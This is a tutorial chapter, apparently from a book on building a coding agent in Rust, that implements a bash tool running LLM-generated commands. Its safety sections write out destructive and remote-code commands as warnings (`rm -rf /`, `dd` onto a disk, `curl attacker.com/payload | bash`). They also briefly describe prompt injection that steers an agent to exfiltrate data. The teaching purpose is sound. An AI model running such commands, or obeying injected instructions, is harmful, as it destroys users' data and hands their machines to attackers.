

# Chapter 7: Bash Tool

> **File(s) to edit:** `src/tools/bash.rs`
> **Test to run:** `cargo test -p mini-claw-code-starter test_ch4` (bash tests are grouped with other tools)

## Goal

- Implement `BashTool` so the agent can run arbitrary shell commands via `bash -c` and capture combined stdout/stderr output.
- Handle the three output cases correctly: stdout only, stderr only, and no output (the `"(no output)"` sentinel).
- Understand why the tool has no safety rails in this chapter and what later chapters add (permissions, command classification, hooks).

The bash tool is the most powerful tool in a coding agent. It is also the most dangerous. With a single tool call, the LLM can compile code, run tests, install packages, inspect processes, query databases, or delete your entire filesystem. Every other tool -- read, write, edit, grep -- does one thing. Bash does everything.

This power is what makes a coding agent useful. An agent that can only read and write files is a fancy text editor. An agent that can run arbitrary shell commands is a programmer. It can try things, see what happens, and iterate -- the same workflow a human developer follows. Claude Code's bash tool is its most-used tool by far, accounting for the majority of all tool invocations in a typical session.

In this chapter you will build the `BashTool`. It takes a command string, runs it in a bash subprocess with a timeout, and returns the combined output. The implementation is straightforward -- the hard part is everything we deliberately leave out. There is no sandboxing, no command filtering, no permission checking. The LLM can run anything. Chapters 10-13 add the safety rails. For now, we build the engine and trust the driver.

## How the BashTool processes a command



## The BashTool

Open `src/tools/bash.rs`. Here is the starter stub:

```rust
use anyhow::Context;
use serde_json::Value;

use crate::types::*;

pub struct BashTool {
    definition: ToolDefinition,
}

impl Default for BashTool {
    fn default() -> Self {
        Self::new()
    }
}

impl BashTool {
    /// Schema: one required "command" parameter (string).
    pub fn new() -> Self {
        unimplemented!(
            "Use ToolDefinition::new(name, description).param(...) to define a required \"command\" parameter"
        )
    }
}

#[async_trait::async_trait]
impl Tool for BashTool {
    fn definition(&self) -> &ToolDefinition {
        &self.definition
    }

    async fn call(&self, _args: Value) -> anyhow::Result<String> {
        unimplemented!(
            "Extract command, run bash -c, combine stdout + stderr, return \"(no output)\" if both empty"
        )
    }
}
```

You need to fill in `new()` and `call()`. Here is the complete implementation:

```rust
impl BashTool {
    pub fn new() -> Self {
        Self {
            definition: ToolDefinition::new("bash", "Run a bash command and return its output")
                .param("command", "string", "The bash command to run", true),
        }
    }
}

#[async_trait::async_trait]
impl Tool for BashTool {
    fn definition(&self) -> &ToolDefinition {
        &self.definition
    }

    async fn call(&self, args: Value) -> anyhow::Result<String> {
        let command = args["command"]
            .as_str()
            .context("missing 'command' argument")?;

        let output = tokio::process::Command::new("bash")
            .arg("-c")
            .arg(command)
            .output()
            .await?;

        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);

        let mut result = String::new();
        if !stdout.is_empty() {
            result.push_str(&stdout);
        }
        if !stderr.is_empty() {
            if !result.is_empty() {
                result.push('\n');
            }
            result.push_str("stderr: ");
            result.push_str(&stderr);
        }

        if result.is_empty() {
            result.push_str("(no output)");
        }

        Ok(result)
    }
}
```

Let's walk through each piece.

### The definition

```rust
ToolDefinition::new("bash", "Run a bash command and return its output")
    .param("command", "string", "The bash command to run", true)
```

One required parameter: `command` -- the shell command to execute. The
description "Run a bash command and return its output" is deliberately simple.
The LLM already knows what bash is. Over-describing the tool wastes prompt
tokens and can confuse the model into overthinking when to use it.

As an extension, you could add a `timeout` parameter to let the LLM override
the default timeout for long-running commands. The reference implementation
includes this.

### Argument extraction

```rust
let command = args["command"]
    .as_str()
    .context("missing 'command' argument")?;
```

The `command` extraction uses `.context(...)` with `?` to return an `Err` if the argument is missing. A bash call without a command is a protocol violation, not a tool failure. The LLM should never produce this, and if it does, the agent's error handling will catch it.

### Running the command

```rust
let output = tokio::process::Command::new("bash")
    .arg("-c")
    .arg(command)
    .output()
    .await?;
```

### Rust concept: tokio::process::Command vs std::process::Command

`tokio::process::Command` is the async counterpart of `std::process::Command`. The key difference: `std`'s version blocks the current OS thread while waiting for the subprocess to finish. In an async runtime like Tokio, blocking a thread means the runtime cannot make progress on other tasks (other tool calls, streaming events, UI updates). `tokio`'s version yields to the runtime while waiting, so the thread can do useful work. Always use `tokio::process` inside `async fn` -- using `std::process` in an async context is a common mistake that leads to performance problems or deadlocks under load.

Two layers here, each doing one thing:

1. **`tokio::process::Command`** spawns an async subprocess. We use `bash -c` so the command string is interpreted by bash, not executed as a raw binary. This means pipes, redirects, semicolons, and all other shell features work: `echo hello | wc -c`, `ls > out.txt`, `cd /tmp && pwd`.

2. **`.output()`** collects the process's stdout, stderr, and exit status. This buffers everything in memory. For a production agent you would want streaming (pipe stdout/stderr to the TUI in real time), but buffered collection is simpler and sufficient for our purposes.

If the process fails to spawn (bash not found, OS refuses to create the process),
the `?` operator propagates the error up. The agent loop catches it and reports
it to the LLM.

## Adding a timeout (extension)

Without a timeout, a single bad command can hang the agent forever. The LLM might run `sleep infinity`, start a server that listens on a port, or trigger an interactive program that waits for stdin. Any of these blocks the agent loop indefinitely -- no more tool calls, no more responses, just a frozen process burning compute.

As an extension, you can wrap the command in `tokio::time::timeout`:

```rust
let output = tokio::time::timeout(
    std::time::Duration::from_secs(120),
    tokio::process::Command::new("bash")
        .arg("-c")
        .arg(command)
        .output(),
)
.await;
```

This produces a nested `Result`: `Ok(Ok(output))` for success, `Ok(Err(e))`
for spawn failures, and `Err(_)` for timeouts. The reference implementation
includes this pattern.

## Output format

The output construction logic handles three concerns: stdout, stderr, and the empty case.

```rust
let stdout = String::from_utf8_lossy(&output.stdout);
let stderr = String::from_utf8_lossy(&output.stderr);

let mut result = String::new();
if !stdout.is_empty() {
    result.push_str(&stdout);
}
if !stderr.is_empty() {
    if !result.is_empty() {
        result.push('\n');
    }
    result.push_str("stderr: ");
    result.push_str(&stderr);
}

if result.is_empty() {
    result.push_str("(no output)");
}
```

Walk through each decision:

### Rust concept: String::from_utf8_lossy vs String::from_utf8

`String::from_utf8_lossy` returns a `Cow<str>` -- it borrows the original bytes if they are valid UTF-8 (zero-cost), or allocates a new `String` with replacement characters if they are not. The alternative, `String::from_utf8()`, returns `Err` on invalid UTF-8, which would require error handling for a case we want to tolerate. `from_utf8_lossy` is the right choice whenever you need a string but cannot guarantee the input encoding.

**`String::from_utf8_lossy`** converts the raw bytes to a string, replacing invalid UTF-8 sequences with the replacement character. Command output is not guaranteed to be valid UTF-8 -- binary data, locale-dependent encodings, or corrupted streams can all produce invalid bytes. Lossy conversion is the right default because the LLM needs a string, and a few replacement characters are better than a crash.

**Stdout comes first, undecorated.** This is the primary output. When `ls` lists files or `cat` prints content, that output appears verbatim. No prefix, no wrapping.

**Stderr is prefixed with `"stderr: "`.** This lets the LLM distinguish normal output from error output. Many commands write diagnostics to stderr even on success (compiler warnings, progress indicators, deprecation notices). The prefix prevents the model from misinterpreting warnings as failures. The newline before the prefix is only added if stdout was non-empty, keeping the output clean when stderr is the only content.

**`"(no output)"` for silent commands.** Commands like `true`, `mkdir -p /tmp/foo`, or `cp a b` produce no stdout and no stderr on success. Returning an empty string would confuse the LLM -- it might think the tool failed or the result was lost. The sentinel string confirms the command ran and had nothing to say.

As an extension, you could also report non-zero exit codes in the output string.
The reference implementation appends `"exit code: N"` when the process exits
with a non-zero status, helping the LLM diagnose failures.

## Safety considerations

The bash tool is the most dangerous tool in the agent's arsenal. It can run
anything -- `rm -rf /`, `dd if=/dev/zero of=/dev/sda`, `curl ... | bash`.
The starter's simplified `Tool` trait does not include safety flags like
`is_destructive()`, but in a production agent (and in the reference
implementation), the bash tool would be marked as destructive, requiring explicit
user approval even in auto-approve mode.

The starter `Tool` trait has only `definition()` and `call()`. Adding safety
metadata (read-only, destructive, concurrent-safe flags) is an extension topic
covered in later chapters.

## Safety warning

This tool passes LLM-generated commands directly to a bash shell. There is no sandboxing, no command filtering, no allowlist, no denylist. The LLM can run `rm -rf /` and your filesystem is gone. It can run `curl attacker.com/payload | bash` and your machine is compromised. It can read your SSH keys, your environment variables, your browser cookies.

This is not a hypothetical concern. LLMs can be manipulated through prompt injection -- malicious instructions hidden in file contents, README files, or web pages that the agent processes. A carefully crafted prompt injection could instruct the model to exfiltrate data or destroy files.

For the purposes of this tutorial, the bash tool is safe to use with trusted prompts in a controlled environment. Do not point it at untrusted input. Do not run it on a machine with sensitive data. Use a container, a VM, or at minimum a dedicated user account with limited permissions.

Chapters 10-13 build the safety infrastructure that makes the bash tool safe for production:

- **Chapter 10 (Permissions)** adds the permission engine that gates every tool call, requiring user approval for destructive operations.
- **Chapter 11 (Safety)** adds command classification that detects and blocks dangerous patterns like `rm -rf`, `chmod 777`, and `curl | bash`.
- **Chapter 12 (Hooks)** adds pre-tool hooks that can inspect and reject commands before execution.
- **Chapter 13 (Plan Mode)** adds a read-only mode where destructive tools are blocked entirely.

Until you build those chapters, treat the bash tool with the respect you would give `sudo` access to an unpredictable collaborator.

## How Claude Code does it

Claude Code's bash tool shares the same core -- `bash -c <command>` with timeout -- but adds several layers of production hardening:

**Command filtering.** Before executing any command, Claude Code runs the command string through a safety classifier that checks for dangerous patterns. Commands like `rm -rf /`, `chmod -R 777`, `curl ... | sh`, and others are flagged or blocked outright. The classifier is not a simple regex -- it understands shell quoting and piping to avoid false positives.

**Working directory management.** Claude Code tracks and sets the working directory for each bash invocation. If the user `cd`s into a directory in one command, subsequent commands remember that directory. Our version always runs in the process's current directory.

**Process group killing on timeout.** When our tool times out, the spawned process may continue running in the background. Claude Code creates a process group for each command and kills the entire group on timeout, ensuring no orphan processes linger.

**Streaming stdout/stderr.** Rather than buffering all output and returning it at the end, Claude Code pipes stdout and stderr to the TUI in real time. The user sees compilation output, test results, and progress indicators as they happen. This is essential for long-running commands where waiting for the final result would leave the user staring at a blank screen.

**Permission engine integration.** Every bash command passes through the permission engine before execution. Depending on the configuration, the user may be prompted to approve the command, the command may be auto-approved if it matches a safe pattern, or it may be denied outright.

Our version is the core protocol without the safety wrapping -- the minimal viable implementation that demonstrates how an LLM interacts with a shell. The production features are layers on top, not changes to the fundamental design.

## Tests

Run the bash tool tests (grouped with other tool tests):

```bash
cargo test -p mini-claw-code-starter test_ch4
```

Note: BashTool tests are in `test_ch4`, grouped alongside WriteTool and EditTool
tests. The test file numbering follows the V1 chapter structure.

Here is what the bash-specific tests verify:

**`test_ch4_bash_definition`** -- Checks that the tool name is "bash".

**`test_ch4_bash_runs_command`** -- Runs a simple command and checks that stdout is captured.

**`test_ch4_bash_captures_stderr`** -- Runs a command that writes to stderr and checks that the output contains the stderr content.

**`test_ch4_bash_stdout_and_stderr`** -- Runs a command that produces both stdout and stderr, and verifies both appear in the output.

**`test_ch4_bash_no_output`** -- Runs `true` (a command that succeeds silently) and checks that the output indicates no output was produced.

**`test_ch4_bash_multiline_output`** -- Runs a multi-command pipeline and checks that all output lines appear.

## Recap

You have built the bash tool -- the most important and most dangerous tool in the agent's toolkit:

- **`command`** is the one required parameter.
- **`tokio::process::Command`** with `bash -c` gives the LLM full shell access -- pipes, redirects, variables, and everything else bash supports.
- **Output format** combines stdout and labeled stderr into a single string. Silent commands return `"(no output)"` so the LLM knows the command ran.
- **No safety rails** -- this chapter builds the raw capability. The permission engine, safety classifier, hooks, and plan mode come in later chapters.

As extensions, you could add a `timeout` parameter (to prevent hung commands),
exit code reporting, and safety flags like `is_destructive()`.

The bash tool completes the core tool set. Your agent can now read files, write files, edit files, and run arbitrary commands. With the `SimpleAgent` from the earlier chapters driving the loop, you have a functioning coding agent -- one that can understand a codebase, make changes, run tests, and iterate until the job is done.

## Key takeaway

The bash tool is what makes a coding agent a *programmer* rather than a text editor. It is also the simplest tool to implement (a single `Command::new("bash").arg("-c").arg(command)` call) and the hardest to make safe. The implementation pattern -- capture output, label stderr, handle silence -- is reusable for any subprocess-based tool.

## What's next

In [Chapter 8: Search Tools](./ch08-search-tools.md) you will build the tools that help the agent navigate large codebases -- glob for finding files by pattern and grep for searching file contents. These read-only tools are the agent's eyes, complementing the hands (bash, write, edit) you have already built.
